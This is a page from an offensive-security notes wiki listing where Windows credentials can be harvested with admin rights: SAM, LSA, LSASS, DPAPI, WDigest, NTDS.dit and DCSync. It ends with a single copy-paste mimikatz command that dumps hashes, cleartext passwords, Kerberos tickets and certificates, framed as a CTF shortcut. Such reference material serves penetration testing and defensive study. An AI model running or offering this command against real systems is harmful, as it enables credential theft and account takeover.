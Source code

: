 ```yaml
---
title: Privileged Windows Credential Access
---
```


[[notes/mitre-attack/credential-access|Access credentials]] with admin privileges on [[notes/windows/index]].

Overview:

- cached [[notes/windows/kerberos-dump|Kerberos Tickets]] of recent logins
- NT hashes of local users in [[notes/windows/registry-dump|SAM]]
- NT hashes and clear text passwords of service accounts as well domain cached credentials in [[notes/windows/registry-dump|LSA]]
- NT hashes of recent logins in [[notes/windows/lsass-dump|LSASS]] process memory
- clear text passwords of explicitly provided credentials in [[notes/windows/lsass-dump|LSASS]] process memory ([source](http://web.archive.org/web/20231201003112/https://blog.gentilkiwi.com/securite/mimikatz/sekurlsa-ssp-ntlm))
- clear text passwords stored in Credential Manager or Windows Vault and other secrets protected by [[notes/windows/dpapi-dump|DPAPI]]
- machine [[notes/windows/certificate-theft|certificates]]
- clear text passwords from [[notes/windows/rdp-dump|RDP client and server processes]] or [[notes/windows/rdp-session-takeover|RDP session takeover]]
- clear text passwords cached in [[notes/windows/wdigest-dump|WDigest]] on legacy systems
- NT hashes of domain accounts in [[notes/ad/ntds-dump|NTDS.dit]] on DC
- NT hashes of domain accounts via [[notes/ad/dcsync|DCSync]] from DC
- everything from [[notes/windows/credential-access-user]]

All in one command for CTFs.

=== "[[notes/tools/mimikatz]]"
    ~~~ bat
    .\mimikatz.exe token::elevate privilege::debug lsadump::sam lsadump::secrets lsadump::cache "lsadump::lsa /patch" sekurlsa::wdigest "sekurlsa::logonpasswords full" sekurlsa::ekeys sekurlsa::kerberos sekurlsa::tickets "vault::cred /patch" "crypto::certificates /export" "crypto::certificates /systemstore:local_machine /export" exit
    ~~~

    If you are desperate add `ts::logonpasswords ts::mstsc`.
